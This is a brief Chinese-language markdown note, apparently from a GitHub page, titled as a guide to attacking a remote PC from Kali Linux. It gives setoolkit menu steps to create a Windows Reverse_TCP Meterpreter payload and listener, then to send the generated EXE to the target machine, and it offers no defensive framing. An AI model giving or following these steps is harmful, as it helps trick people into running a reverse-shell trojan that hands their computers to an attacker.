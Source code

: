 ## 在kali中使用Payload攻击远程PC

```bash
setoolkit
# 选择选项1，“ 社会工程攻击 ” 
# 选择选项4，“ 创建有效负载和监听器 ” 
# 选择  2  “ Windows Reverse_TCP Meterpreter ”
# 将生成的EXE程序发给远程PC
```

[原文](https://www.hackingarticles.in/remote-payload-backtrack/)

